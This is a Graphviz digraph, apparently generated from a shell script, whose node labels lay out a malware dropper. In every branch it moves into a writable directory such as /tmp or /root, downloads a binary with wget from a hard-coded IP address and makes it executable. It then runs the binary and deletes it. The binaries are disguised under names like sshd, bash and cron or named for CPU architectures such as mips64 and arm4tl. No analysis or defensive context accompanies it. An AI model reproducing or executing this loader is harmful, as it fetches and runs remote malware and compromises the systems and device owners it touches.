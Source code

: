 digraph {
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 10 [label="||,"];
10 [label="wget http://23.95.10.223/ntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x ntpd "];
12 -> 14 [label=";,"];
14 [label="./ntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf ntpd "];
16 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 28 [label="||,"];
28 [label="wget http://23.95.10.223/sshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x sshd "];
30 -> 32 [label=";,"];
32 [label="./sshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf sshd "];
34 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 46 [label="||,"];
46 [label="wget http://23.95.10.223/openssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x openssh "];
48 -> 50 [label=";,"];
50 [label="./openssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf openssh "];
52 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 64 [label="||,"];
64 [label="wget http://23.95.10.223/bash "];
64 -> 66 [label=";,"];
66 [label="chmod +x bash "];
66 -> 68 [label=";,"];
68 [label="./bash "];
68 -> 70 [label=";,"];
70 [label="rm -rf bash "];
70 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 82 [label="||,"];
82 [label="wget http://23.95.10.223/tftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x tftp "];
84 -> 86 [label=";,"];
86 [label="./tftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf tftp "];
88 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 100 [label="||,"];
100 [label="wget http://23.95.10.223/wget "];
100 -> 102 [label=";,"];
102 [label="chmod +x wget "];
102 -> 104 [label=";,"];
104 [label="./wget "];
104 -> 106 [label=";,"];
106 [label="rm -rf wget "];
106 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 118 [label="||,"];
118 [label="wget http://23.95.10.223/cron "];
118 -> 120 [label=";,"];
120 [label="chmod +x cron "];
120 -> 122 [label=";,"];
122 [label="./cron "];
122 -> 124 [label=";,"];
124 [label="rm -rf cron "];
124 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 136 [label="||,"];
136 [label="wget http://23.95.10.223/ftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x ftp "];
138 -> 140 [label=";,"];
140 [label="./ftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf ftp "];
142 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 154 [label="||,"];
154 [label="wget http://23.95.10.223/pftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x pftp "];
156 -> 158 [label=";,"];
158 [label="./pftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf pftp "];
160 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 172 [label="||,"];
172 [label="wget http://23.95.10.223/sh "];
172 -> 174 [label=";,"];
174 [label="chmod +x sh "];
174 -> 176 [label=";,"];
176 [label="./sh "];
176 -> 178 [label=";,"];
178 [label="rm -rf sh "];
178 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 190 [label="||,"];
190 [label="wget http://23.95.10.223/[cpu] "];
190 -> 192 [label=";,"];
192 [label="chmod +x [cpu] "];
192 -> 194 [label=";,"];
194 [label="./[cpu] "];
194 -> 196 [label=";,"];
196 [label="rm -rf [cpu] "];
196 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 208 [label="||,"];
208 [label="wget http://23.95.10.223/apache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x apache2 "];
210 -> 212 [label=";,"];
212 [label="./apache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf apache2 "];
214 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 226 [label="||,"];
226 [label="wget http://23.95.10.223/telnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x telnetd "];
228 -> 230 [label=";,"];
230 [label="./telnetd "];
230 -> 232 [label=";,"];
232 [label="rm -rf telnetd "];
232 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 244 [label="||,"];
244 [label="wget http://23.95.10.223/sh2eb "];
244 -> 246 [label=";,"];
246 [label="chmod +x sh2eb "];
246 -> 248 [label=";,"];
248 [label="./sh2eb "];
248 -> 250 [label=";,"];
250 [label="rm -rf sh2eb "];
250 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 262 [label="||,"];
262 [label="wget http://23.95.10.223/sh2elf "];
262 -> 264 [label=";,"];
264 [label="chmod +x sh2elf "];
264 -> 266 [label=";,"];
266 [label="./sh2elf "];
266 -> 268 [label=";,"];
268 [label="rm -rf sh2elf "];
268 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 280 [label="||,"];
280 [label="wget http://23.95.10.223/powerpc "];
280 -> 282 [label=";,"];
282 [label="chmod +x powerpc "];
282 -> 284 [label=";,"];
284 [label="./powerpc "];
284 -> 286 [label=";,"];
286 [label="rm -rf powerpc "];
286 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 298 [label="||,"];
298 [label="wget http://23.95.10.223/mips64 "];
298 -> 300 [label=";,"];
300 [label="chmod +x mips64 "];
300 -> 302 [label=";,"];
302 [label="./mips64 "];
302 -> 304 [label=";,"];
304 [label="rm -rf mips64 "];
304 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 316 [label="||,"];
316 [label="wget http://23.95.10.223/i486 "];
316 -> 318 [label=";,"];
318 [label="chmod +x i486 "];
318 -> 320 [label=";,"];
320 [label="./i486 "];
320 -> 322 [label=";,"];
322 [label="rm -rf i486 "];
322 -> 324 [label=";,"];
324 [label="cd /tmp "];
324 -> 324
326 [label="cd /var/run "];
326 -> 328 [label="||,"];
328 [label="cd /mnt "];
328 -> 330 [label="||,"];
330 [label="cd /root "];
330 -> 332 [label="||,"];
332 [label="cd / "];
332 -> 334 [label="||,"];
334 [label="wget http://23.95.10.223/arm4tl "];
334 -> 336 [label=";,"];
336 [label="chmod +x arm4tl "];
336 -> 338 [label=";,"];
338 [label="./arm4tl "];
338 -> 339 [label=";,"];
}

